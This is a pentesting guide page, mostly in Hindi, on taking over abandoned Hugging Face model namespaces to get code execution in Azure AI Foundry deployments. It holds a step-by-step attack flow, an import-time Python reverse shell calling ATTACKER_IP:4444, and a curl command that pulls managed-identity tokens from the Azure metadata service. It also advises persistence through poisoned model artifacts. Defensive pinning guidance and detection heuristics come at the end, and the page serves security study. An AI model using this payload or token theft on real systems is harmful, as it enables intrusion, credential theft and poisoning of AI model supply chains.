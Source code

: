 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## परिदृश्य

- Azure AI Foundry Model Catalog में एक-क्लिक deployment के लिए कई Hugging Face (HF) models शामिल हैं।
- HF model identifiers are Author/ModelName. अगर कोई HF author/org हट जाता है, तो कोई भी उस author को फिर से re-register कर सकता है और legacy path पर उसी ModelName के साथ model प्रकाशित कर सकता है।
- नाम के आधार पर ही खींचने वाले Pipelines और catalogs (बिना commit pinning/integrity के) attacker-controlled repos पर resolve होंगे। जब Azure model को deploy करेगा, तो loader code endpoint environment में execute हो सकता है, जिससे उस endpoint की permissions के साथ RCE मिल सकती है।

Common HF takeover cases:
- Ownership deletion: पुराना path takeover तक 404 रहता है।
- Ownership transfer: Old path 307 नए author की तरफ redirect होता है जब पुराना author मौजूद रहता है। अगर बाद में पुराना author हटा दिया जाता है और फिर से re-registered किया जाता है, तो redirect टूट जाता है और attacker की repo legacy path पर serve करती है।

## पुन: उपयोग योग्य Namespaces (HF) की पहचान
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Azure AI Foundry के खिलाफ एंड-टू-एंड अटैक फ्लो

1) Model Catalog में उन HF models को ढूंढें जिनके मूल लेखक HF पर deleted या transferred हो गए थे (पुराना लेखक हटाया गया)।
2) HF पर abandoned author को पुनः रजिस्टर करें और ModelName को फिर से बनाएं।
3) एक दुर्भावनापूर्ण repo प्रकाशित करें जिसमें loader code हो जो import पर execute हो जाए या जिसके लिए trust_remote_code=True आवश्यक हो।
4) Azure AI Foundry से legacy Author/ModelName को deploy करें। प्लेटफ़ॉर्म attacker repo को pull करता है; loader Azure endpoint के container/VM के अंदर execute होता है, जिससे endpoint permissions के साथ RCE प्राप्त होता है।

Example payload fragment executed on import (for demonstration only):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
नोट्स
- AI Foundry deployments जो HF के साथ integrate होते हैं, आम तौर पर model के config में referenced repo modules को clone और import करते हैं (उदा., auto_map), जो code execution trigger कर सकते हैं। कुछ paths पर trust_remote_code=True की आवश्यकता होती है।
- Access सामान्यतः endpoint के managed identity/service principal permissions के अनुरूप होता है। इसे Azure के भीतर data access और lateral movement के लिए एक initial access foothold मानें।

## Post-Exploitation Tips (Azure Endpoint)

- Environment variables और MSI endpoints के लिए tokens को enumerate करें:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- अधिग्रहित token के साथ माउंट की गई storage, model artifacts, और पहुँच योग्य Azure सेवाओं की जाँच करें।
- यदि प्लेटफ़ॉर्म HF से पुनः pull करता है तो poisoned model artifacts छोड़कर persistence पर विचार करें।

## Azure AI Foundry उपयोगकर्ताओं के लिए रक्षा संबंधी मार्गदर्शन

- HF से लोड करते समय commit द्वारा models को pin करें:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- सत्यापित HF मॉडलों को एक भरोसेमंद internal registry में mirror करें और वहाँ से deploy करें।
- लगातार codebases और defaults/docstrings/notebooks को स्कैन करें ताकि हार्ड-कोडेड Author/ModelName जो deleted/transferred हैं पहचान कर उन्हें अपडेट या pin किया जा सके।
- परिनियोजन से पहले author के अस्तित्व और मॉडल की provenance सत्यापित करें।

## Recognition Heuristics (HTTP)

- Deleted author: author पेज 404; legacy model path 404 रहता है जब तक takeover नहीं होता।
- Transferred model: legacy path 307 नए author की ओर जाता है जबकि पुराना author मौजूद है; अगर पुराना author बाद में हटाया गया और फिर से रजिस्टर किया गया, तो legacy path आक्रमणकारी की सामग्री सर्व कर सकता है।
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## क्रॉस-संदर्भ

- व्यापक कार्यप्रणाली और आपूर्ति-श्रृंखला नोट्स देखें:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## संदर्भ

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
